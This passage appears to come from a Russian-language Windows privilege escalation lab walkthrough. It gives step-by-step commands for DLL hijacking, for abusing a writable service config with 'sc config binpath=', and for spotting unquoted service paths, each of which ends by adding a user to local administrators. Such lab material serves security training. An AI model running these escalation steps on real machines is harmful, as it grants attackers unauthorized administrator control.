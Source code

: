 1. Откройте windows_dll.c в текстовом редакторе и замените команду, используемую функцией system(), на: `cmd.exe /k net localgroup administrators user /add`
2. Выйдите из текстового редактора и скомпилируйте файл, введя в командной строке следующее:  `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`
3. Скопируйте сгенерированный файл hijackme.dll на виртуальную машину Windows.

ВМ Windows

1. Поместите hijackme.dll в 'C:\Temp'.
2. Откройте командную строку и введите: sc stop dllsvc & sc start dllsvc
3. Можно подтвердить, что пользователь был добавлен в группу локальных администраторов, введя в командной строке следующее: net localgroup administrators

### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```

## Задание 9
Обнаружение

ВМ Windows

1. Откройте командную строку и введите:  C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc

2. Обратите внимание, что вывод предполагает, что пользователь «User-PC\User» имеет разрешение «SERVICE_CHANGE_CONFIG».

Эксплуатация

ВМ Windows

1. В командной строке введите:  sc config daclsvc binpath= "net localgroup administrators user /add"
2. В командной строке введите: sc start daclsvc
3. Подтвердить, что пользователь был добавлен в группу локальных администраторов, можно, введя в командной строке следующее: net localgroup administrators

### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```

## Задание 10
Обнаружение

ВМ Windows

1. Откройте командную строку и введите: sc qc unquotedsvc
2. Обратите внимание, что в поле «BINARY_PATH_NAME» отображается путь, который не заключен в кавычки.
